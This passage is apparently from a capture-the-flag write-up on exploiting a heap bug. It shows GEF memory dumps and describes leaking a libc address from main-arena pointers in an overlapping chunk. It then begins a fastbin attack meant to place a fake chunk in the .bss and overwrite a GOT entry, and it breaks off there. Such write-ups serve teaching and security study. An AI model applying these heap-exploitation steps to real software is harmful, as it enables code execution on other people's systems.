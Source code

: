 ```
0xdfecc0:	0x3030303030303030	0x3030303030303030
0xdfecd0:	0x3030303030303030	0x3030303030303030
0xdfece0:	0x3030303030303030	0x3030303030303030
0xdfecf0:	0x3030303030303030	0x3030303030303030
0xdfed00:	0x3030303030303030	0x3030303030303030
0xdfed10:	0x0	0x81
0xdfed20:	0x3131313131313131	0x3131313131313131
0xdfed30:	0x3131313131313131	0x3131313131313131
0xdfed40:	0x3131313131313131	0x3131313131313131
0xdfed50:	0x3131313131313131	0x3131313131313131
0xdfed60:	0x3131313131313131	0x3131313131313131
0xdfed70:	0x3131313131313131	0x3131313131313131
0xdfed80:	0x3131313131313131	0x3131313131313131
0xdfed90:	0x0	0x101
0xdfeda0:	0x7f4572c79b78	0x7f4572c79b78
0xdfedb0:	0x3232323232323232	0x3232323232323232
0xdfedc0:	0x3232323232323232	0x3232323232323232
0xdfedd0:	0x3232323232323232	0x3232323232323232
0xdfede0:	0x3232323232323232	0x3232323232323232
0xdfedf0:	0x3232323232323232	0x3232323232323232
0xdfee00:	0x3232323232323232	0x3232323232323232
0xdfee10:	0x3232323232323232	0x3232323232323232
0xdfee20:	0x3232323232323232	0x3232323232323232
0xdfee30:	0x3232323232323232	0x3232323232323232
0xdfee40:	0x3232323232323232	0x3232323232323232
0xdfee50:	0x3232323232323232	0x3232323232323232
0xdfee60:	0x3232323232323232	0x3232323232323232
0xdfee70:	0x3232323232323232	0x3232323232323232
0xdfee80:	0x3232323232323232	0x3232323232323232
0xdfee90:	0x100	0x40
0xdfeea0:	0x0	0x3333333333333333
0xdfeeb0:	0x3333333333333333	0x3333333333333333
0xdfeec0:	0x3333333333333333	0x3333333333333333
0xdfeed0:	0x0	0x20131
```

So we can see that there are the arena pointers at `0xdfeda0` and `0xdfeda8` which directly overlap with the start of our third chunk. We can leak the first pointer by just viewing the chunk at index `2`. With that we get our libc infoleak.

### Fastbin Attack

Next up is the fastbin attack to allocate a fake chunk in the bss, to start overwriting heap pointers and do a got table overwrite. Picking up from where we left off in the libc infoleak, we allocate two chunks of size `0x60` and free them to add them to the fastbin list:

```
gef➤  x/10g 0x605310
0x605310:	0xfd6c20	0xfd6d20
0x605320:	0xfd6da0	0xfd6ea0
0x605330:	0xfd6da0	0xfd6e10
0x605340:	0x0	0x0
0x605350:	0x0	0x0
gef➤  x/g 0xfd6e10
0xfd6e10:	0xfd6d90
```

